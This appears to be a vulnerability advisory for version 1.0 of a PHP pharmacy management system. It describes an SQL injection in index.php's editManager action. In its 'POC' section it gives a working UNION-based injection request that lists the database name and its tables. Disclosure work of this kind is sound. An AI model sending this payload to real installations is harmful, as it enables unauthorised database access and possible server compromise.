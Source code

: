 # pharmacy_Management_System-in-php  via to sql injection

****

## NAME OF AFFECTED PRODUCT(S)

**pharmacy-management-system-in-php-with-source-code**

## Vendor Homepage

https://code-projects.org/pharmacy-management-system-in-php-with-source-code/

##  **Manufacturers sites:**

 https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

index.php

## VERSION(S)

-  v1.0

## Software Link

 https://download-media.code-projects.org/2020/10/Pharmacy_Management_System_In_PHP_With_Source_Code.zip



# PROBLEM TYPE

## Vulnerability Type

- sql injection

## Root Cause

The vulnerability file is in the root directory of Index.php

You can see that the request is id，The managerId is concatenated to an SQL statement, triggering an SQL injection vulnerability.

![image-20240816202621012](https://github.com/user-attachments/assets/18908b60-23c5-4780-93a6-59fa4d30d7a8)

## Impact

 SQL injection can obtain database information and obtain server permissions.

## **Description of the vulnerability**

pharmacy_Management_System wite souce in php  editManager has SQL injection, which can get information about the database and even GetShell via SQL injection

## **Vulnerability recurrence**

We need to set up this PMS website locally

Let's open the  /Index.php?id=allManager  route

![image-20240723105418419](https://github.com/user-attachments/assets/381f498c-f9f3-4679-a607-0f3db402e536)

**POC**

```
GET /index.php?action=editManager&id=8}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

![image-20240723125248656](https://github.com/user-attachments/assets/f86c3631-56bb-4cac-a639-1b7a02c3074b)

**Result**

We can get the database name, table name, etc

![image-20240723125309098](https://github.com/user-attachments/assets/811bd17f-3fba-4ba5-ac1a-87291d554f71)

![image-20240723134203341](https://github.com/user-attachments/assets/63c11e73-885d-43cd-88bf-49969b271fc2)
